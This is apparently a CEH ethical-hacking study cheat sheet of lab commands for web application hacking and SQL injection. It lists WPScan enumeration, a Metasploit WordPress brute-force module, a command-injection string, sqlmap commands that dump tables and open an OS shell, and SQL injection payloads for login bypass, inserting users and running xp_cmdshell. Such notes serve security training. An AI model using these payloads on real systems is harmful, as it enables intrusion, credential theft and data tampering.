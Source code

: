     

**Module 14 : Hacking Web Applications**

- Wordpress
    
    - wpscan --url http://10.10.10.12:8080/CEH --enumerate u
        
    
- WP password bruteforce
    
    - msfconsole
        
    - use auxiliary/scanner/http/wordpress_login_enum
        
    
- RCE
    
    - ping 127.0.0.1 | hostname | net user
        
    

**Module 15 : SQL Injection**

- SQLMAP Extract DBS
    
    - `sqlmap -u “`[`http://www.moviescope.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
        
    
- Extract Tables
    
    - `sqlmap -u “`[`http://www.moviescope.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
        
    
- Extract Columns
    
    - `sqlmap -u “`[`http://www.moviescope.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
        
    
- Dump Data
    
    - `sqlmap -u “`[`http://www.moviescope.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
        
    
- OS Shell to execute commands
    
    - `sqlmap -u “`[`http://www.moviescope.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
        
    
- Login bypass
    
    - `blah' or 1=1 --`
        
    
- Insert data into DB from login
    
    - `blah';insert into login values ('john','apple123');`
        
    
- Create database from login
    
    - `blah';create database mydatabase;`
        
    
- Execute cmd from login
    
    - `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`
        
    

**Module 19 : Cloud Computing**

- owncloud